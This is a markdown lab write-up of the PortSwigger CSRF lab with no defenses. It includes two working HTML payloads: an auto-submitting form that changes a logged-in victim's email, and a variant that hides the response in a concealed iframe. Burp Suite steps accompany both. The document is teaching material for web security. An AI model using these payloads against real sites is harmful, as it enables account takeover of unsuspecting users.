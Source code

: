 # CSRF vulnerability with no defenses

## Scenario
- Victim is currently logged into the vulnerable site
- Attacker sends malicious link to user \
NOTE: This is simulated via the exploit server in portswigger
- User clicks on the link
- The POST request is sent on behalf of the attacker
```
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Attackology via BurpSuite Community edition and Expxloit server
1. Logged in as the user given in the lab
2. Pulled BurpSuite to intercept the traffic during the email change process
3. Deliberately changed the email of the account to determine the endpoint and method of the vulnerable email change functionality
![image](https://user-images.githubusercontent.com/64616459/148880204-3d9197f1-0a90-4f8e-a1bd-bc684e7be5c7.png)
4. In BurpSuite, looked at the HTTP history to look fo the email change endpoint and sent it to repeater
![image](https://user-images.githubusercontent.com/64616459/148880252-68b3abc9-d257-4229-91de-1719cbabf9c1.png)
5. Went to the exploit server given in the lab and added the endpoint to the form 
6. ```document.forms[0].submit``` automatically sends the POST request to the vulnerable site
![image](https://user-images.githubusercontent.com/64616459/148880927-432779d3-1121-4d39-be79-e44035108a1c.png)
7. Send the payload to the victim
![image](https://user-images.githubusercontent.com/64616459/148880701-4820a8b8-ae53-4101-bf44-09c7895fab19.png)
8. Make the email was changed after sending the payload
![image](https://user-images.githubusercontent.com/64616459/148881951-8cf931c3-f831-46be-af02-3d1baa891fc0.png)

## Attacklogy via python simple server hosting a html page
1. Logged in as user in the lab
2. Create the html page with following code:
```html
<html>
    <body>
        <h1>Hello World!</h1>    
        <!--
            iframe => An inline frame is used to embed another document within the current HTML document
            The iframe with STYLE="DISPLAY:NONE" ensures that the victim does not recognize the page being redirected

            Reference:
            HTML Iframes  \
            https://www.w3schools.com/html/html_iframe.asp
         -->
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <!--
            Target attribute specifies a name or a keyword that indicates where to display the response that is received after submitting the form
            In this example,  the value of the target displays the response to a iframe
            Reference:
            HTML <form> target Attribute \
            https://www.w3schools.com/TAGs/att_form_target.asp
        -->
        <form action="https://acb01f961f46be3ec0d009ff00960036.web-security-academy.net/my-account/change-email" method="POST" target="csrf-iframe" id="csrf-form">
            <input type="hidden" name="email" value="pcap_panwed_you_one_more_tme@pcap.com">
        </form>
        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```

## Reference 
Lab: CSRF vulnerability with no defenses \
https://portswigger.net/web-security/csrf/lab-no-defenses

Cross-site request forgery (CSRF) \
https://portswigger.net/web-security/csrf

CSRF - Lab #1 CSRF vulnerability with no defenses | Long Version \
https://www.youtube.com/watch?v=BBosVSNiJdM
